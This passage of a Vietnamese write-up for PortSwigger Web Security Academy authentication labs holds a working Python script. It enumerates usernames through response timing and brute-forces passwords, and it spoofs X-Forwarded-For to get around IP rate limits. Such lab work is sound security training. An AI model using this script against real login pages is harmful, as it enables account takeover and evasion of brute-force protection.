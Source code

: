 - chúng ta thu được tài khoản hợp lệ là ==alerts:cheese==. Đăng nhập và giải quyết lab:

![image](https://hackmd.io/_uploads/rkA68gxcT.png)

mình đã làm lại lab này và viết mã khai thác

mình thấy thấy ==wiener: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa== status 302 response time xấp xỉ 3000 milliseconds

```python=
import requests
import time
url = 'https://0a73009803ee1c1c813a3eae00b20033.web-security-academy.net/login'
file_username = open('./username.txt','r')
username = file_username.readline().strip()
# print(username)
for i in range(101):
    a = time.time()
    response = requests.post(url, data={'username': username, 'password': 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'}, headers={'X-Forwarded-For': '118.71.204.'+ str(i)})
    if (time.time() - a > 3 ):
        print("Tên đăng nhập là:" + username)
        break
    username = file_username.readline().strip()

file_password = open('./password.txt','r')
password = file_password.readline().strip()
# print(password)
for i in range(101):
    response = requests.post(url,data={'username': username, 'password': password}, allow_redirects= False,headers={'X-Forwarded-For': '118.71.204.'+ str(i)})
    if(response.status_code == 302):
        print("Mật khẩu là:" + password)
        break
    password = file_password.readline().strip()
```

![image](https://hackmd.io/_uploads/BJu1GZlqa.png)

và được tài khoản là ==am:666666== đồng thời chúng ta cũng đã giải được lab này

![image](https://hackmd.io/_uploads/rktu-bgcT.png)

## 6. Lab: Broken brute-force protection, IP block

link: https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block
